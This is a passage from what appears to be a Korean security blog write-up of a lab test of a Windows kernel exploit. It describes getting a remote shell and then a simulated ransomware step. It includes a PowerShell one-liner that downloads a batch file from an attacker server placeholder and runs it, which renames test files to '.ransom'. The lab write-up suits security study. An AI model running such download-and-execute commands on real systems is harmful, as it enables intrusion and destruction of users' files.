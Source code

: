 블루 스크린 에러가 발생하게 된 경우 또한 Exploit에 일부 성공한 것이다. 커널 메모리 영역에 예상치 못한 코드가 들어갔기 때문에 발생하는 것이기에 일부 성공한 것이다.

하지만 원하는 Remote Shell 코드에 접근하지 못한 것이지만 계속 Exploit하게 되면 아래와 같이 Remote Shell이 연결되는 것을 확인할 수 있다.

<p align="center">
<img src ="https://github.com/peoplstar/peoplstar.github.io/assets/78135526/27603d1f-fe94-40f7-9d82-386152e5ab61">
</p>

오른쪽 터미널에서 정상적으로 연결된 이후 디렉토리 확인을 위해 `dir` 사용 시 정상적으로 연결된 것을 확인 할 수 있다.

```
C:\USERS\USR\DESKTOP\TEST
│  1.txt
│  2.txt
│  3.txt
│  4.txt
│  5.txt
│
├─A
│  │  1.txt
│  │  2.txt
│  │  3.txt
│  │  4.txt
│  │  5.txt
│  │
│  └─C
│          1.txt
│          2.txt
│          3.txt
│          4.txt
│          5.txt
│
└─B
        1.txt
        2.txt
        3.txt
        4.txt
        5.txt
```

현재 `C:\USERS\USR\DESKTOP\TEST` 디렉토리에는 위와 같이 테스트용 파일이 존재한다. 랜섬웨어 및 악성코드 실행 시 정상적으로 작동하는지 테스트를 진행합니다.

```
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -w 1 -noni -nop -c "(new-Object System.Net.WebClient).DownloadFile('http://{AttackIP}/extension_rename.bat','C:\Users\usr\Desktop\Test\extension_rename.bat');"&& cd C:\Users\usr\Desktop\Test&& extension_rename.bat
```

해당 명령어는 `powershell.exe`를 이용하여 공격자 서버의 파일을 다운로드 받아 실행시키는 코드로 실행하게 되면 Test 디렉토리 내 파일이 모두 변경되는 것을 확인할 수 있다.

```
C:\USERS\USR\DESKTOP\TEST
│  1.ransom
│  2.ransom
│  3.ransom
│  4.ransom
│  5.ransom
│  extension_rename.ransom
│
├─A
│  │  1.ransom
│  │  2.ransom
│  │  3.ransom
│  │  4.ransom
│  │  5.ransom
│  │
│  └─C
```